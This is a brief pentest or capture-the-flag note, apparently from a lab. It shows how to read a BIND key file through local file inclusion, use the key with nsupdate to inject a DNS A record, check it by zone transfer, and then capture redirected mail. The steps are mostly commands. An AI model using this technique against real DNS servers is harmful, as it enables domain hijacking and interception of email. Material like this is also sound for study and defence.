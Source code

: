 # nsupdate quick note

by manesec.

## 0x1 Get the dns key using LFI like tech

The key file locate in `/etc/bind/named.conf`.

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the
// structure of BIND configuration files in Debian, *BEFORE* you customize
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "*******************************************";
};
```

## 0x2 Use this key to update the dns records.

```bash
──╼ $nsupdate
> server <REMOTE> 53
> key  hmac-sha256:rndc-key  *******************************************
> zone manesec.com
> update add email.manesec.com  86400 A  <Target>
> send
> quit
```

## 0x3 View the result

```bash
dig AXFR manesec.com @target

```

## If using to receive mail

Don’t forget to remove ‘3D’ and ‘=’ from our smptd response.